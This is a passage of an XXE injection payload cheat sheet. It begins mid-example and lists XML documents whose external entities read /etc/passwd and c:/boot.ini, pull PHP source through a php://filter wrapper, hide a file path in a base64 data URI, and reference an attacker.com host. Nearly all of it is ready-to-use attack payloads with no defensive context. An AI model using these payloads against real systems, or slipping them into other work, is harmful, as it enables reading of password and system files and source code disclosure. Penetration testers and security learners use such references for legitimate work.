 ```xml
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```
#### Entity Example
```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
### Inband Injection
#### Extract data from the server
```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```
```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```
```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```
#### XXE Base64 encoded
```xml-dtd
<!DOCTYPE test [
    <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> 
    %init;
    ]>
<foo/>
```
#### PHP Wrapper inside XXE
```xml-dtd
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```
```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://attacker.com/file.php" >
]>
<foo>&xxe;</foo>
```